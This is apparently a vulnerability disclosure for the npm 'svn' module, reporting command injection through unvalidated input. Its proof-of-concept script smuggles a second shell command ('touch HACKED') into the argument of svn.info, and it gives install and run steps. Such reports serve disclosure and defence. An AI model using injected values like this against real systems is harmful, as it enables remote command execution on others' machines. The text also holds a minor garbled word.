 # Description

The `svn` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var SVN = require('svn');
var svn = new SVN('./working_copy');
svn.info("test; touch HACKED; #", function(){});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i svn # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
